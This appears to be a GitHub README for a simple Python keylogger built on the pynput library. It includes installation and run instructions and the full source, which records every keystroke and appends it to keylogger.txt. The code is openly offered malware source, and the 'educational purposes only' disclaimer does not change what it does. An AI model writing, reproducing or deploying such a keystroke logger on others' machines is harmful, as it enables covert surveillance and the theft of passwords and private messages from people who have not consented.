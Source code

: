 Overview
This is a simple keylogger implemented in Python using the pynput library. It captures keystrokes and logs them to a text file.

Features
Logs all keystrokes
Saves captured keystrokes to keylogger.txt
Runs in the background until manually stopped

Install the modules: pip install pynput

Usage: Run the script using:

sh
Copy
Edit
python keylogger.py
Keystrokes will be logged in keylogger.txt.

Code Explanation:
The script listens for keystrokes and writes them to keylogger.txt. It handles exceptions for non-character keys.

python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylogger.txt", "a") as f:
        try:
            char = key.char
            f.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
Disclaimer
This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use responsibly and with proper consent.

License
This project is licensed under the MIT License.
